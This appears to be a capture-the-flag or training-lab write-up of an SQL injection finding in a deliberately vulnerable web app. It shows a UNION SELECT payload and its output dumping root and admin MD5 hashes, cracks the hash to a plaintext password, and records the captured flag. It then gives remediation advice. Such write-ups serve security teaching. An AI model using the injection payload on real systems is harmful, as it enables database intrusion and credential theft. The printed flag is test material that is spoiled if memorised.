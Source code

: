 # Finding 01 - login credentials - SQL injection

## Exploitability
Easy. Only 2 steps required : inject code in input field, then decrypt md5 using easy-to-find web tool.

## Risk level/type
OWASP top 10 :
- A02:2021 – Cryptographic Failures
	=>" Are deprecated hash functions such as MD5 or SHA1 in use [...] ?"
- A03:2021 – Injection 					vulnerability to SQL injection


## Detailed description of the exploit
From previous SQL injection attempts (findings 2 and 7), we have found a table named "Member_Brute_Force"... let's see if it helps.
In a search input field (images or members), let's use the following SQL command:

```1 and 1=1 UNION SELECT username, password from Member_Brute_Force.db_default```
which yields :
```
1 and 1=1 UNION SELECT username, password from Member_Brute_Force.db_default
ID: 1 and 1=1 UNION SELECT username, password from Member_Brute_Force.db_default 
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_

ID: 1 and 1=1 UNION SELECT username, password from Member_Brute_Force.db_default 
Title: 3bf1114a986ba87ed28fc1b5884fc2f8
Url : root

ID: 1 and 1=1 UNION SELECT username, password from Member_Brute_Force.db_default 
Title: 3bf1114a986ba87ed28fc1b5884fc2f8
Url : admin
```
Both root and admin have the same password, which look like it was hashed with md5...

Let's use our web tool again:
https://www.md5online.org/md5-decrypt.html
It gives us:
shadow

We can try to login with either combo (root/shadow and admin/shadow) :
We arrive on a page that says:
"The flag is : b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2 "

## Remediation

Input sanitizing is the first step.
There are several ways to sanitize the input, depending on the code architecture (legacy).
The first step is to use prepared statements with parameterized queries
	-> this means that the query would not be evaluated as a command but as a string, looking for an exact match to the string (i.e. a username matching "1 or 1 = 1")
For legacy code, you can also escape all the user input before putting it in a query.

Also, md5 is now deprecated in favor of sha2 algorithms (sha256, sha512) as well as sha3 algorithms.

## Additional resources
https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html

https://cheatsheetseries.owasp.org/cheatsheets/Database_Security_Cheat_Sheet.html

md5 deprecation notice :
https://www.security-database.com/detail.php?alert=VU836068
